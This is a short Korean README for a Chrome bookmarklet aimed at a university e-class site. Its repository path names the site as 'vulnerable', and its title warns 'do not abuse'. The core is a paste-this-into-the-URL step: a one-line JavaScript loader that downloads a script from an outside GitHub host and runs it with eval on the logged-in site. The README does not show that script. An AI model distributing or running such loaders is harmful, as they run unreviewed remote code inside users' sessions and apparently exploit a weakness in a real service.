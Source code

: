 
# 악용하지 마시오

## 개요
소스코드는 구글 크롬을 기준으로 작성됨.

## 설치

![페이지 추가](img/1s.png)

구글 크롬에서 [북마크바 위에 마우스 커서를 올리고 **우클릭**]-[페이지 추가] 클릭
* 북마크바는 (Ctrl+Shift+B)를 누르면 나타남.

![북마크 수정](img/2s.png)

* 이름: *적당히 아무 이름으로 설정*
* URL: **(중요)** *본래 내용을 지우고, 아래의 '코드 전체'를 복사 붙여넣기*

```javascript
javascript: (function(){let xhr=new XMLHttpRequest();xhr.open('GET','https://raw.githubusercontent.com/Hepheir/web_functions/master/dgu-eclass-vulnerable/linker-compressed.js');xhr.onreadystatechange=()=>{if(xhr.readyState==XMLHttpRequest.DONE)eval(xhr.responseText);};xhr.send();})();
```

그리고 저장.

## 실행
이클래스 홈페이지에서 '설치'과정에서 생성한 북마크를 실행.

> 이클래스 유틸리티 기능이 활성화 되었습니다.

라는 문구가 뜨면 성공.
